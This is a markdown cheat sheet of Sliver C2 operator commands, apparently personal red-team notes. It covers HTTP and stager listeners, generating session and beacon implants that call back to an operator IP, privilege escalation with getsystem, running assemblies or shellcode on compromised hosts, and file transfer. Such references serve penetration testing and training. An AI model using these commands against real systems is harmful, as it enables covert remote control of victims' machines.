

#tools #c2 #sliver #implant

# Sliver C2

Related: [metasploit](metasploit.md) · [shells-payloads](shells-payloads.md) · [pivoting](../Network/pivoting.md)

## Contents
- [Listeners & Profiles](#listeners--profiles)
- [Implants](#implants)
- [Sessions & Beacons](#sessions--beacons)
- [Post-Exploitation (interact)](#post-exploitation-interact)
- [Extensions](#extensions)



## Listeners & Profiles
```text
http -L <Local IP> -l <Port>
```
Start an HTTP listener.

```text
profiles new --http <Local IP>:<Port> --format shellcode <Profile Name>
```
Create a C2 profile.

```text
stage-listener --url tcp://<Localhost:Port> --profile <Profile name>
```
Set up a stager listener.

## Implants
```text
generate --http <Local IP>:<Port> --os <OS>
```
Generate a session implant.

```text
generate beacon --http <Local IP>:<Port> --os <OS>
```
Generate a beacon implant.

## Sessions & Beacons
```text
sessions
```
List sessions (`beacons` for beacons).

```text
sessions -k -i <session>
```
Kill a session (`-K` all, `prune` unavailable).

```text
tasks
```
List pending/completed beacon tasks.

## Post-Exploitation (interact)
```text
interactive
```
Task a beacon to spawn an interactive session.

```text
getsystem
```
Attempt NT AUTHORITY\SYSTEM.

```text
execute-assembly <assembly.exe>
```
Run a .NET assembly in a child process (`execute-shellcode` for shellcode).

```text
download <file> / upload <file>
```
Transfer files. See [file-transfers](file-transfers.md).

## Extensions
```text
armory install <alias/extension>
```
Install tooling from the armory (`armory install all`; `multiplayer` for team mode).
